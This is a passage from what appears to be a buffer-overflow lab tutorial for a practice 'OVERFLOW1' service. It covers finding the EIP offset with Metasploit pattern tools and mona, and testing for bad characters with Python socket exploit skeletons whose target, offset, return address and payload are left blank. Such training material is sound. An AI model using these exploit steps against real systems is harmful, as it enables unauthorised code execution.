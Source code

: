    except:
      print("Could not connect to " + ip + ":" + str(port))
      sys.exit(0)
   time.sleep(1) 

3. Control EIP, create a pattern and determine the offset. Add 400 bytes on the crashed bytes.

**/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600**

import socket

ip = ""
port = 

prefix = b"OVERFLOW1 "
offset = 0
overflow = b"A" * offset
retn = b""
padding = b""
payload = b""
postfix = b""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + b"\r\n")
    print("Done!")
except:
    print("Could not connect.")

**/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 600 -q **


!mona findmsp -distance <numberofbytescreated>

4. Determine badchars. Create \x00 to \xff and look for missing character.
  **Note: Remember that badchars can affect the next byte as well!**

**!mona bytearray -b "\x00"**


import socket

ip = ""
port = 

prefix = b"OVERFLOW1 "
offset = 0
overflow = b"A" * offset + b"B" * 4
badchars =(
b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
retn = b""